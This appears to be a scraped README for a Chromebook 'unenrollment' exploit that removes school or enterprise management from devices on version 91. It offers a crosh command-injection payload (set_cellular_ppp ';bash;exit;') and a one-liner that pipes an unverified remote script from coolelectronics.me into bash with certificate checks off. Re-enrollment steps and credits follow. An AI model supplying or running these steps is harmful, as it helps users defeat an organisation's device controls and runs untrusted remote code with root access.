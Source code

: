 **Uninrollment for Chromebook**

In order for this exploit to work you will need to downgrade to EXACTLY version 91. Downgrade instructions can be found here

This method requires crosh to be unblocked on your chromebook. Crosh can be opened with CTRL+ALT+T If it's blocked by an extension, you can disable it with LTBEEF v91 WILL NOT WORK ON GRUNT BOARDS OR ARM CHROMEBOOKS MAKE SURE YOU HAVE EXACTLY VERSION 91.0.4472.102, NOT VERSION 91.0.4472.167 STEPS: Open crosh (ctrl + alt + t) Type in **set_cellular_ppp ';bash;exit;'** and enter Type in **bash <(curl -k https://coolelectronics.me/unroll)** and enter Wait for the script to finish, then powerwash your chromebook

Steps to Re-Enroll when you turn your chromebook back in at the end of the year:

Enable Devmode (ESC+Power+Reload, ctrl d and enter on recovery screen) Once in chrome, Open crosh (ctrl + alt + t) Type in **shell** Type in **sudo vpd -i RW_VPD -s check_enrollment=1** Powerwash again

Site made by CoolElectronics#4683 UNROLL (U Need Root LoL) acroynm by ULTRA BLUE#1850 and zuh#6098 justinchrm#3399 helped with testing Shroot™ name by phennen#9801 shroot80 script created by OlyB#9420 Kiosk Exploit found by Divide/B3AT Root exploits originally found by Rory McNamara

